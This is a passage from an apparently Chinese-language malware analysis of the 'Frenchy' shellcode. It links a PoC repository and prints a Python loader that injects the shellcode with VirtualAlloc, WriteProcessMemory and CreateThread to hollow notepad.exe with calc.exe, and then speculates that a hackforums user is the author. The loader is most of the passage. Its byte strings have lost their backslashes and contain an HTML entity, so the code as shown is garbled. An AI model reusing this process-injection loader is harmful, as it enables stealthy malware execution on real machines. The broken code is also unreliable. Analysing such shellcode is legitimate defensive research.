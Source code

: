 [![](https://p1.ssl.qhimg.com/t01dc734ab512243240.png)](https://p1.ssl.qhimg.com/t01dc734ab512243240.png)

在这里你可以找到PoC和Frenchy shellcode v3：

[https://github.com/p3pperp0tts/PoC_FrenchyShellcode](https://github.com/p3pperp0tts/PoC_FrenchyShellcode)

```
from ctypes import *
import struct

f = open("frenchyshellcode.bin", "rb")
frenchy = f.read()
f.close()
f = open("c:\windows\system32\calc.exe", "rb")
calc = f.read()
f.close()
hollowpath = "c:\windows\notepad.exex00"
#to test, full shellcode = frenchy + arguments for frenchy + code to jmp
lenshellcode = len(frenchy) + len(calc) + len(hollowpath) + len("x68x00x00x00x00x68x78x56x34x12x68x78x56x34x12x68x78x56x34x12xc3")
ptr = windll.kernel32.VirtualAlloc(None, lenshellcode, 0x3000, 0x40)
shellcode = frenchy
shellcode += calc
shellcode += hollowpath
shellcode += "x68" + struct.pack("&lt;L", ptr + len(frenchy)) #push path to process to hollow
shellcode += "x68" + struct.pack("&lt;L", ptr + len(frenchy)+len(calc)) #push address of pe to inject
shellcode += "x68x00x00x00x00" #fake ret addr
shellcode += "x68" + struct.pack("&lt;L", ptr) #push address of frenchy shellcode entry point
shellcode += "xc3" #jmp to frenchy
hproc = windll.kernel32.OpenProcess(0x1F0FFF,False,windll.kernel32.GetCurrentProcessId())
windll.kernel32.WriteProcessMemory(hproc, ptr, shellcode, len(shellcode), byref(c_int(0)))
windll.kernel32.CreateThread(0,0,ptr+len(frenchy)+len(calc)+len(hollowpath),0,0,0)
windll.kernel32.WaitForSingleObject(c_int(-1), c_int(-1))
```



## 3. Frenchy是谁

我尝试通过一些社工方法找到该shellcode的作者，hackforums中的一个用户值得我们怀疑，如下图所示

[![](https://p0.ssl.qhimg.com/t01a703961cc25a5da4.png)](https://p0.ssl.qhimg.com/t01a703961cc25a5da4.png)

[![](https://p0.ssl.qhimg.com/t010f27bfca587468d6.png)](https://p0.ssl.qhimg.com/t010f27bfca587468d6.png)

[![](https://p3.ssl.qhimg.com/t01da71fc8d3c4a449a.png)](https://p3.ssl.qhimg.com/t01da71fc8d3c4a449a.png)



## 相关资料
